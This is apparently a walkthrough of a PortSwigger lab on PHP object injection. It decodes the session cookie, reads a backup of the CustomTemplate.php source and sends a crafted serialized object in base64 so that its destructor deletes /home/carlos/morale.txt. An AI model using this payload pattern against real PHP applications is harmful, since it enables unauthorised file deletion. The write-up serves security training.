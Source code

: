 
# Arbitrary object injection in PHP

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter

Hint: You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file.


---------------------------------------------

References: 

- https://portswigger.net/web-security/deserialization/exploiting





![img](images/Arbitrary%20object%20injection%20in%20PHP/1.png)
![img](images/Arbitrary%20object%20injection%20in%20PHP/2.png)

---------------------------------------------

First intercept a request after logging in:



![img](images/Arbitrary%20object%20injection%20in%20PHP/3.png)


Then decode the content of the session cookie:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"jhc3a45gerbcjxx72wi9m1xydqvwubxa";}
```



![img](images/Arbitrary%20object%20injection%20in%20PHP/4.png)


From Burp we can find a PHP file in /libs:



![img](images/Arbitrary%20object%20injection%20in%20PHP/5.png)


And read it at “/libs/CustomTemplate.php~”:



![img](images/Arbitrary%20object%20injection%20in%20PHP/6.png)



```
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

From https://www.php.net/manual/en/function.unlink.php:



![img](images/Arbitrary%20object%20injection%20in%20PHP/7.png)



We have to create a “CustomTemplate” object that calls “\_\_destruct()” so it deletes the file “/home/carlos/morale.txt”, something like \_\_destruct("/home/carlos/morale.txt"). We will initialize “template_file_path” and “lock_file_path” to the path of the file we want to delete:

```
O:14:"CustomTemplate":2:{s:18:"template_file_path";s:23:"/home/carlos/morale.txt";s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```



![img](images/Arbitrary%20object%20injection%20in%20PHP/8.png)


And send it in a request. It generates a 500 error code but the file is deleted:

```
GET / HTTP/2
...
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
...
```



![img](images/Arbitrary%20object%20injection%20in%20PHP/9.png)

